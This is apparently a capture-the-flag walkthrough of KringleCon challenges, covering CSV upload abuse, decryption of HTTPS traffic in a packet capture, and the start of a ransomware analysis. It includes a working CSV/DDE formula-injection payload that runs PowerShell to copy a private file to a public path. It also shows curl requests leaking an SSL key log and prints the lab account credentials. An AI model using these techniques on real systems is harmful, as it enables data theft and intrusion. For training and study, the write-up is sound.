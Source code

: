 By browsing around the site and triggering a 404 page we get to know that files in the path "C:\careerportal\resources\public\" are accessible at the URL "https://careers.kringlecastle.com/public".
We are trying to get the contents of the file "C:\candidate_evaluation.docx".
Submitting the form with a CSV containing the following payload:

```
=cmd|'/C powershell copy C:\\candidate_evaluation.docx  C:\\careerportal\\resources\\public\\a.docx'!A0
```

will then copy the file to the publicly accessible path and can then be downloaded at "https://careers.kringlecastle.com/public/a.docx".

Which gives us the name of the organisation: "Fancy Beaver"

## Objective 8 - Network Traffic Forensics

Looking at the client side code we find a comment: "All extensions and sizes are validated server-side in app.js"
There is also a js file hosted at "https://packalyzer.kringlecastle.com/pub/js/custom.js"
Adding this together leads us to getting the (corrupted) source code at "https://packalyzer.kringlecastle.com/pub/app.js".

In the source code we see that we can list the contents of the environment variable list by accessing them as a path.
Doing this gives us the path of the SSLKEYLOGFILE.

```
> curl 'https://packalyzer.kringlecastle.com/SSLKEYLOGFILE/'
Error: ENOENT: no such file or directory, open '/opt/http2packalyzer_clientrandom_ssl.log/'
> curl 'https://packalyzer.kringlecastle.com/dev/packalyzer_clientrandom_ssl.log' -O
```

We can then download this log and a packet capture we get from registering, logging in and pressing "sniff".
Putting the SSLKEYLOGFILE and the packet capture into Wireshark allows us to decrypt the HTTPS traffic and retrieve the login for "alabaster".

Username: alabaster  
Password: Packer-p@re-turntable192  

We can then log in with this account and download another pcap file which contains an e-mail transaction.

https://packalyzer.kringlecastle.com/uploads/upload_2a4a5ae98007cb261119b208bf9369ef.pcap

From the pcap we can extract an attachment which is a document about transposing music.

This gives us the name of the song: "Mary Had a Little Lamb"

## Objective 9 - Ransomware Recovery

### Part 1 - Catch the Malware

Using tshark we can look at the traffic and see a lot of DNS queries on the following form:

```
309   3.138054 10.126.0.133 ? 90.215.148.126 DNS 102 Standard query 0xbe44 TXT 50.77616E6E61636F6F6B69652E6D696E2E707331.grurnshabe.com
```
